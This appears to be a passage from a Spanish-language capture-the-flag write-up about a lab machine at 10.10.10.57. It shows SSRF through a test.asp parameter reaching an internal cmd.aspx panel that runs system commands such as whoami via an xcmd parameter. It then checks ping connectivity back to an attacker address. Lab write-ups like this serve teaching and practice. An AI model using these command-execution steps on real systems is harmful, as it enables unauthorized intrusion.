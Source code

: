 ## Evaluacion de vulnerabilidades {-}

### Analizamos la web interna por el puerto privado 80 {-}

Aqui se puede ver un panel de administrador donde parece que podamos ejecutar comandos a nivel de sistema. Si pinchamos el link
no nos va a dejar porque nos lleva a una url interna `127.0.0.1/cmd.aspx`. Pero si la introducimos directamente en 

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx
```

functiona.

Si le lanzamos un whoami, nos redirige en una url un poco turbia. Analizando el codigo fuente vemos que la peticion es get con el
nombre xcmd.

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=whoami
```

### Controlamos si tenemos conectividad con la maquina de atacante {-}

1. Nos ponemos en escucha por trasa ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. en la web

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=ping 10.10.14.8
    ```

Como es una maquina windows, tenemos que recivir 4 pings y es el caso. Tenemos conectividad con la maquina victima.

